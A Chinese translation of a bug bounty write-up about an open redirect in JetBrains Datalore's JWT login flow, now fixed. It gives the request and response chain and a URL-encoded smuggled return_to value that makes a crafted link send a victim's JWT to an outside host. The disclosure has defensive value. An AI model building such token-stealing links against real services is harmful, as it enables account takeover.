



# 以眼还眼:不寻常的单击 JWT 代币接管

> 原文：<https://infosecwriteups.com/eye-for-an-eye-unusual-single-click-jwt-token-takeover-2e58f88cf44d?source=collection_archive---------1----------------------->

## 这个故事是关于我在 JetBrains Datalore 中发现的一个不寻常的开放重定向错误配置。



## 描述

当我在一个 Datalore 端点中发现一个打开的重定向时，故事就开始了。端点与通过 JetBrains 帐户的身份验证相关。起初，这个重定向器看起来是无害的，但是，无论如何，我决定更仔细地看看认证过程是如何工作的。

```
**Request:**GET /jetbrains_auth?jwt={token}&return_to=**https://0d.tf/** HTTP/1.1
Host: datalore.jetbrains.com
Accept: text/html,application/xhtml+xml;q=0.9,*/*;q=0.8
Connection: close**Response:**HTTP/1.1 302
Date: Tue, 01 Jun 2021 19:50:54 GMT
Content-Length: 0
Connection: close
Set-Cookie: route={route}; Path=/; Secure; HttpOnly
Set-Cookie: DATALORESESSIONID={session-id}; Path=/; Secure; HttpOnly
Location: **https://0d.tf/**
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
X-Content-Type-Options: nosniff
X-XSS-Protection: 1
```

我已经检查了使用 JWT 令牌发起重定向到数据仓库的端点，下面是该请求的样子:

```
**Request:**GET /jwt-auth/datalore?**auth_url=https%3A%2F%2Fdatalore.jetbrains.com%2Fjetbrains_auth**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F HTTP/1.1
Host: http://account.jetbrains.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close**Response:**HTTP/1.1 302
Date: Tue, 01 Jun 2021 10:00:54 GMT
Content-Length: 0
Connection: close
Server: nginx
Cache-Control: no-store, no-cache, must-revalidate, max-age=0
Pragma: no-cache
Expires: -1
Location: **https://datalore.jetbrains.com/jetbrains_auth?jwt={jwt-token-here}&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F**
```

如您所见，它在`auth_url`查询参数中获取目标主机的地址。

以下是关于该参数的一些有趣事实:

*   该地址可以是 jetbrains.com 的任何子域
*   您可以在 URL 中提供路径和查询参数

我有了一个想法，将一个有效的 JWT 令牌作为`auth_url`参数的一部分，下面是接下来发生的事情:

```
**Request:**GET /jwt-auth/datalore?**auth_url=https%3A%2F%2Fdatalore.jetbrains.com%2Fjetbrains_auth?jwt={attacker's-jwt}**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F HTTP/1.1
Host: http://account.jetbrains.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close**Response:**HTTP/1.1 302
Date: Tue, 01 Jun 2021 10:00:54 GMT
Content-Length: 0
Connection: close
Server: nginx
Cache-Control: no-store, no-cache, must-revalidate, max-age=0
Pragma: no-cache
Expires: -1
Location: **https://datalore.jetbrains.com/jetbrains_auth?jwt={attacker's-jwt-token}?jwt={victim's-jwt-token}&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F**
```

端点返回了一个位置标头，查询参数中包含两个 JWT 标记。第一个——由我作为`auth_url`的一部分提供，第二个来自 JetBrains 账户。

下一步，我试图将`return_to`参数作为`auth_url`的一部分。这个想法非常简单——它将允许我放置一个有效的 JWT 令牌作为第一个参数，并添加受害者的 JWT 作为走私的`return_to`参数的一部分。

```
**Attacker's host:** 
&return_to=https%3A%2F%2F0d.tf**Url encoded attacker's host:** %26%72%65%74%75%72%6e%5f%74%6f%3d%68%74%74%70%73%25%33%41%25%32%46%25%32%46%30%64%2e%74%
```

所以，最后的恶意链接看起来是这样的:

```
https://account.jetbrains.com/jwt-auth/datalore?auth_url=https://datalore.jetbrains.com/jetbrains_auth?**jwt={attacker's_jwt}%26%72%65%74%75%72%6e%5f%74%6f%3d%68%74%74%70%73%25%33%41%25%32%46%25%32%46%30%64%2e%74%66**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F
```

如果有人打开链接，将会发生以下情况:

```
1\. 302 Redirect -> https://datalore.jetbrains.com/jetbrains_auth?jwt={attacker's-jwt}&return_to=**https%3A%2F%2F0d.tf?jwt={victim's-jwt}**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F
2\. 302 Redirect -> **https://0d.tf?jwt={victim's-jwt}**&return_to=https%3A%2F%2Fdatalore.jetbrains.com%2F
3\. JWT TOKEN -> Application session
```



走私 JWT 代币和归还 URI 的例子。



接管受害者的 JWT 令牌的例子。

## 影响

攻击者可以接管用户的 JWT 令牌，并获得对其 Datalore 帐户的访问权限。攻击的复杂性非常简单——攻击者需要创建一个带有有效 JWT 令牌的链接(以眼还眼),并诱骗受害者点击它。此外，从技术上讲，攻击者很容易创建一个脚本来自动化攻击过程。

## 减轻

Datalore 团队实施了返回 URL 验证，这使得不可能利用开放重定向漏洞。下一步，他们移除了遗留的身份验证过程，并使用 JetBrains 帐户作为身份提供者实现了 OAuth 集成(干得好！).

就是这样。我希望你喜欢这个。有什么问题吗？DM @ [saninyurii](https://twitter.com/SaninYurii)

这里还有一些故事:

*   [我如何在 YouTrack(CVE-2020–24618)中发现一个原始但严重的访问控制漏洞](https://bit.ly/3kl1C6E)
*   [CVE-2020–15823:JetBrains YouTrack 中的服务器端请求伪造(SSRF)](https://bit.ly/2VcPXOL)